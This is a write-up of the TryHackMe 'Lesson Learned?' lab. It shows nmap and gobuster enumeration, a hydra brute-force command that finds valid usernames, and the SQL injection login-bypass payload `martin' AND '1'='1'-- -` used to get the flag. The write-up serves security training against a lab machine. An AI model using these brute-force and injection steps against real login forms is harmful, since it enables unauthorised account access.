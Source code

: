 ```yaml
---
title: Lesson Learned? - TryHackMe Write-Up
date: 2024-11-04
authors:
  - name: PrintN
    link: https://github.com/PrintN
    image: https://github.com/PrintN.png
---
```

![Image 0](./0.webp)
### Introduction
Today we're going to take a look at [Lesson Learned?](./https://tryhackme.com/r/room/lessonlearned) room made by TryHackMe and Tib3rius. The difficulty is easy.

The challenge description states there is no rabbit holes or hidden files but we have to treat the box as a real target. Going to the website `https://[MACHINE_IP]/` we're presented with a login form.
![Screenshot 1](./1.webp)

### Enumeration
Doing a quick `nmap` scan we find the ports `22` and `80` open.

```bash
┌──(printn㉿kali)-[~]
└─$ nmap -sV 10.10.132.122  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-04 11:14 EST
Nmap scan report for 10.10.132.122
Host is up (0.048s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.87 seconds
```

And a `gobuster` scan also doesn't return anything of interest.
```bash
┌──(printn㉿kali)-[~]
└─$ gobuster dir -u http://10.10.132.122/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.132.122/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/manual               (Status: 301) [Size: 315] [--> http://10.10.132.122/manual/]
```

### OSINT
We have been told that we have to treat it like an real target so let's try doing some Open Source Intelligence (OSINT). When checking out the room creator Tib3rius out on his X / Twitter account we find some interesting posts regarding best practices with SQL injections and the dangers of using `OR 1=1`.
![Screenshot 2](./2.webp)

_[https://x.com/0xTib3rius/status/1624819441044185088](https://x.com/0xTib3rius/status/1624819441044185088)_

Doing a quick search of what the risks are on using `OR 1=1` in a SQL injection we get this article [https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/](https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/)

### Bruteforcing
We'll use `hydra` for the bruteforcing the username with the `xato-net-10-million-usernames` wordlist from SecLists. 

If you don't have it, download it with the following command.
```bash 
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/xato-net-10-million-usernames.txt
```

```bash
┌──(printn㉿kali)-[~]
└─$ hydra -L /usr/share/wordlists/xato-net-10-million-usernames.txt -p pass 10.10.132.122 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-04 12:04:20
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://10.10.132.122:80/:username=^USER^&password=^PASS^:Invalid username and password.
[80][http-post-form] host: 10.10.132.122   login: martin   password: pass
[80][http-post-form] host: 10.10.132.122   login: patrick   password: pass
[80][http-post-form] host: 10.10.132.122   login: stuart   password: pass
[80][http-post-form] host: 10.10.132.122   login: marcus   password: pass
[80][http-post-form] host: 10.10.132.122   login: kelly   password: pass
[80][http-post-form] host: 10.10.132.122   login: arnold   password: pass
[80][http-post-form] host: 10.10.132.122   login: Martin   password: pass
[80][http-post-form] host: 10.10.132.122   login: karen   password: pass
[80][http-post-form] host: 10.10.132.122   login: Patrick   password: pass
```

### SQL Injection
Great so now we got some usernames we can use, now it's time for the SQL injection. By using our knowledge from the post and the article we can craft the injection while ensuring we don't erase the database.

We craft the injection `martin' AND '1'='1'-- -` which we could also shorten to `martin'-- -`.
![Screenshot 4](./4.webp)

And we receive the flag 🥳 and an explanation about the risks of using `OR 1=1` in SQL injections.
![Screenshot 5](./5.webp)